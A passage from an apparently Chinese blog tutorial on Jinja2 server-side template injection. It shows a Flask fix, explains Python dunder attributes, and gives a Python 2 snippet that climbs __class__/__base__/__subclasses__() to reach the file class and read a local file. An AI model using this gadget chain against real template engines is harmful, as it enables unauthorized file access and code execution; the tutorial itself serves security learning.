 @app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello {{n}}")
    return t.render(n=name)

if __name__ == "__main__":
    app.run()

编译运行，再次注入就会失败

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903151308616-823367288.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903151308616-823367288.png)

由于在jinja2中是可以直接访问python的一些对象及其方法的，所以可以通过构造继承链来执行一些操作，比如文件读取，命令执行等：

__dict__　　 ：保存类实例或对象实例的属性变量键值对字典
__class__　　：返回一个实例所属的类
__mro__　　  ：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__bases__　　：以元组形式返回一个类直接所继承的类（可以理解为直接父类）__base__　　 ：和上面的bases大概相同，都是返回当前类所继承的类，即基类，区别是base返回单个，bases返回是元组
// __base__和__mro__都是用来寻找基类的
__subclasses__　　：以列表返回类的子类
__init__　　 ：类的初始化方法
__globals__　　   ：对包含函数全局变量的字典的引用__builtin__&&__builtins__　　：python中可以直接运行一些函数，例如int()，list()等等。　　　　　　　　　　　　　　　　　　这些函数可以在__builtin__可以查到。查看的方法是dir(__builtins__)　　　　　　　　　　　　　　　　　　在py3中__builtin__被换成了builtin　　　　　　　　　　　　　　　　　　1.在主模块main中，__builtins__是对内建模块__builtin__本身的引用，即__builtins__完全等价于__builtin__。　　　　　　　　　　　　　　　　　　2.非主模块main中，__builtins__仅是对__builtin__.__dict__的引用，而非__builtin__本身

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200815153729779-1563757467.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200815153729779-1563757467.png)

for c in {}.__class__.__base__.__subclasses__():
    if(c.__name__=='file'):
        print(c)
        print c('joker.txt').readlines()

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903153121082-520901024.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903153121082-520901024.png)

上述代码先通过__class__获取字典对象所属的类，再通过__base__（__bases[0]__）拿到基类，然后使用__subclasses__()获取子类列表，在子类列表中直接寻找可以利用的类

为了方便理解，我直接把获取到的子类列表打印出来：

for c in {}.__class__.__base__.__subclasses__():
        print(c) 

 打印结果如下（python2.7.5）：

<type 'type'>
<type 'weakref'>
<type 'weakcallableproxy'>
<type 'weakproxy'>
<type 'int'>
<type 'basestring'>
<type 'bytearray'>
<type 'list'>
<type 'NoneType'>
<type 'NotImplementedType'>
<type 'traceback'>
<type 'super'>
<type 'xrange'>
<type 'dict'>
<type 'set'>
<type 'slice'>
<type 'staticmethod'>
<type 'complex'>
<type 'float'>